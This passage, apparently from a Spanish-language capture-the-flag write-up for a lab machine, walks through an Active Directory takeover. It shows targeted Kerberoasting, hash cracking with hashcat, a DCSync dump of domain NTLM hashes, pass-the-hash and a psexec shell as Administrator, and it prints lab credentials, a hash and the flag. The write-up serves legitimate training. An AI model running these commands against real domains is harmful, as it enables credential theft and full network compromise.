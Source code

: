 Una vez está sincronizado (desde sudo), lo corremos:
``sudo python3 targetedKerberoast.py -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'``

Curiosamente con --dc-ip 10.10.11.42 daba error. Sin ello no.

![[Pasted image 20250407174254.png]]
![[Pasted image 20250407174305.png]]
![[Pasted image 20250407174323.png]]
-> Nos saca el hash y por tanto podemos intentar crackear.

A su vez, podemos volver a setear en on:
``sudo timedatectl set-ntp on``


-> Le pasamos el hash a hashcat:
``hashcat -m 13100 ethankerberoasthash /usr/share/wordlists/rockyou.txt --force``
![[Pasted image 20250407175039.png]]

hash = limpbizkit
Tenemos la contraseña del usuario ethan.

Validamos credenciales de ethan:
``netexec smb 10.10.11.42 -u ethan -p 'limpbizkit'``
![[Pasted image 20250407175340.png]]

ethan : limpbizkit son credenciales válidas.

Marcamos como owned a Ethan en el BloodHound.
Si observamos:
![[Pasted image 20250407175725.png]]

Podemos hacer DCSync con Ethan, por lo que podemos ver todos los hashes NTLM de los usuarios del dominio.

``impacket-secretsdump DC=administrator,DC=htb/'ethan':'limpbizkit'@'10.10.11.42'``

![[Pasted image 20250407175925.png]]

Cogemos el hash NTLM de Administrator (3dc553ce4b9fd20bd016e098d2d2fd2e -> hash.txt) y se lo pasamos a hashcat:

``hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt --force``
Pero no consigue romperlo. No obstante, no importa porque podemos hacer PassTheHash:

``netexec smb 10.10.11.42 -u Administrator -H ':3dc553ce4b9fd20bd016e098d2d2fd2e'``
![[Pasted image 20250407184233.png]]

Por lo tanto, podemos hacer uso de psexec, wmiexec.
``impacket-psexec administrator@10.10.11.42 -hashes ':3dc553ce4b9fd20bd016e098d2d2fd2e'``
![[Pasted image 20250407184431.png]]

En C:\Users\Administrator\Desktop recogemos la flag de root.txt
![[Pasted image 20250407184548.png]]

root.txt = 44903097c386521b812e00d27787d848



